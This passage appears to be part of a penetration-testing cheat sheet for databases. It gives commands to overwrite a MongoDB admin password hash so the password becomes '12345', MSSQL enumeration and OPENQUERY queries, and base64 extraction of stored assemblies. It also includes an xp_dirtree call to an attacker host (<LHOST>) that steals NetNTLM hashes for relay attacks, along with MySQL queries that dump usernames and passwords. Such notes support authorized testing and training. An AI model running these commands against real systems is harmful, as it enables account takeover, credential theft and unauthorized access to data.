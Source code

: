 ##### User Password Reset to "12345"

```c
> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
```

#### MSSQL

##### Connection

```c
sqlcmd -S <RHOST> -U <USERNAME>
sqlcmd -S <RHOST> -U <USERNAME> -P '<PASSWORD>'
```

##### Show Database Content

```c
1> SELECT name FROM master.sys.databases
2> go
```

##### OPENQUERY

```c
1> select * from openquery("web\clients", 'select name from master.sys.databases');
2> go
```

```c
1> select * from openquery("web\clients", 'select name from clients.sys.objects');
2> go
```

##### Binary Extraction as Base64

```c
1> select cast((select content from openquery([web\clients], 'select * from clients.sys.assembly_files') where assembly_id = 65536) as varbinary(max)) for xml path(''), binary base64;
2> go > export.txt
```

##### Steal NetNTLM Hash / Relay Attack

```c
SQL> exec master.dbo.xp_dirtree '\\<LHOST>\FOOBAR'
```

#### MySQL

```c
mysql -u root -p
mysql -u <USERNAME> -h <RHOST> -p
```

```c
mysql> show databases;
mysql> use <DATABASE>;
mysql> show tables;
mysql> describe <TABLE>;
mysql> SELECT * FROM Users;
mysql> SELECT * FROM users \G;
mysql> SELECT Username,Password FROM Users;
```
